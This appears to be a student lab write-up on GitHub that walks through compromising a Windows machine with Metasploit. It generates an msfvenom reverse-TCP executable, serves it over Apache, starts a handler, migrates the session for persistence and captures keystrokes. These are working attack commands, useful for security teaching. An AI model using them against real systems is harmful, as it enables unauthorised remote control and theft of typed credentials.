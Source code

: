 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:

![etex61](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/9a417db4-820f-4e14-b6d3-4c4bbd2e6763)



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:

![etex62](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/90412bef-8c82-45f5-89af-eb541a32fa99)




copy the fun.exe into the apache /var/www/html folder


![etex63](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/ed8c36a0-a938-4b96-bfda-1ce5bcbfd518)

Start apache server
sudo systemctl apache2 start


![etex64](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/585d295a-41f6-45cb-9b61-78e2085d2d11)



Check the status of apache2




Invoke msfconsole:
## OUTPUT:


![etex65](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/07019239-4b85-4deb-bf97-6e1874f59a68)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![etex66](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/31033b54-d478-45b2-9582-689c0713f0d0)



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![etex67](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/50eea79e-9d29-426c-928c-8e60e2dae12c)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![etex67](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/479f7668-6867-4496-874c-1a332988f007)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 


![etex68](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/37966bc6-fb7d-4b5b-b9b0-5ce0ef3c9852)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![etex69](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/4d94ddb3-acaa-4d5e-bd39-298d5108b4ed)



keyscan_dump	Shows the keystrokes captured so far

![etex610](https://github.com/MDINESH220305/Compromising-windows-using-Metasploit/assets/162429215/f3d45e09-2ff9-4f8f-b639-e4d63f97f71b)



## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
